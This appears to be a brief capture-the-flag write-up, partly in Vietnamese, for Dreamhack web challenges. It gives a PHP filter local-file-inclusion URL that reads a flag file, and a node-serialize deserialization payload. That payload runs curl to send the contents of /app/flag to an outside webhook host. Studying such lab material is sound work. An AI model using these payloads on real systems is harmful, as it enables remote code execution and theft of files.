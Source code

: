 ### php-1
```http://host3.dreamhack.games:10501/?page=php://filter/convert.base64-encode/resource=/var/www/uploads/flag```
### out of money
## Level 2
### node-serialize
- một lỗi cơ bản mà mình đã giải thích ở WU rootme trước đây, tuy nhiên trong Chall này chúng ta chỉ có thể RCE với webhook của dreamhack do là họ đã giới hạn port outbound.
```
{"username":"_$$ND_FUNC$$_function(){require('child_process').exec('curl https://xfyybai.request.dreamhack.games/?c=$(cat /app/flag)'); return 'nope';}()", "country":"Korea"}
```


